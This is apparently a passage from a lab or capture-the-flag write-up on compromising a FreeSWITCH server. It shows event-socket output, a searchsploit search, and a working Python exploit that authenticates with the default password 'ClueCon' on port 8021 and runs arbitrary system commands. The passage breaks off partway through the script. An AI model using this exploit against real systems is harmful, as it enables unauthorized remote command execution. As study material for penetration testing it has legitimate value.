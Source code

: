   ```
  
  Content-Type: command/reply
  Reply-Text: +OK bye
  
  Content-Type: text/disconnect-notice
  Content-Length: 67
  
  Disconnected, goodbye.
  See you at ClueCon! http://www.cluecon.com/
  Connection closed by foreign host.
  ```

- Since I couldn't execute any command, I started looking for some exploits and found command execution.

  ```
  $ searchsploit freeswitch   
  --------------------------------------------------------------------------------- ---------------------------------
   Exploit Title                                                                   |  Path
  --------------------------------------------------------------------------------- ---------------------------------
  FreeSWITCH - Event Socket Command Execution (Metasploit)                         | multiple/remote/47698.rb
  FreeSWITCH 1.10.1 - Command Execution                                            | windows/remote/47799.txt
  --------------------------------------------------------------------------------- ---------------------------------
  Shellcodes: No Results
  ```

---

## ⚙️ Shell Access

- For a reverse shell I used this exploit which is `47799`.

  ```
  #!/usr/bin/python3

  from socket import *
  import sys
  
  if len(sys.argv) != 3:
      print('Missing arguments')
      print('Usage: freeswitch-exploit.py <target> <cmd>')
      sys.exit(1)
  
  ADDRESS=sys.argv[1]
  CMD=sys.argv[2]
  PASSWORD='ClueCon' # default password for FreeSWITCH
  
  s=socket(AF_INET, SOCK_STREAM)
  s.connect((ADDRESS, 8021))
  
  response = s.recv(1024)
  if b'auth/request' in response:
      s.send(bytes('auth {}\n\n'.format(PASSWORD), 'utf8'))
      response = s.recv(1024)
      if b'+OK accepted' in response:
          print('Authenticated')
          s.send(bytes('api system {}\n\n'.format(CMD), 'utf8'))
          response = s.recv(8096).decode()
          print(response)
      else:
  ```